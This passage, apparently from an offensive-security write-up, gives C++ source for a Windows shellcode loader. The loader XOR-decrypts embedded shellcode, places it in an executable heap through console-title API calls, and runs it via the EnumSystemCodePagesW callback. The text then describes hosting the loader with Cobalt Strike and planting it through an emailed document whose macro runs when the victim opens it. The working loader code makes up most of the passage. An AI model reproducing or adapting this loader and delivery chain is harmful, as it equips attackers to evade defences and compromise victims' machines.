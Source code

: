 Here's an example of the code that we used: 

```cpp
#include <Windows.h> 
 
int main(int argc, char** argv)
{
    char orig_shellcode[CRYPT_SHELLCODE_LEN] = { 
        CRYPT_SHELLCODE_STR
    }; 
 
    char key[XOR_KEY_LEN] = {
        XOR_KEY_STR
    }; 
 
    BOOL ret = 0; 
 
    int orig_shellcode_len = sizeof(orig_shellcode) / sizeof(orig_shellcode[0]); 
    for (int i = 0; i < orig_shellcode_len; i++) { 
        int j = i % sizeof(key) / sizeof(char); 
        orig_shellcode[i] = orig_shellcode[i] ^ key[j]; 
    } 
 
    HANDLE heap = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0); 
    char* copied_shellcode = (char*)HeapAlloc(heap, 0, 0x10); 

    SetConsoleTitleA(orig_shellcode); 
    GetConsoleTitleA(copied_shellcode, MAX_PATH); 

    EnumSystemCodePagesW(copied_shellcode, 0); 

    return 0; 
}
```

Once the loader has been compiled, Cobalstrike's "Host File" feature is utilized to allow the file to be downloaded through HTTP.

Subsequently, we change the document to be emailed and create the macro that will run when the victim accesses the file.
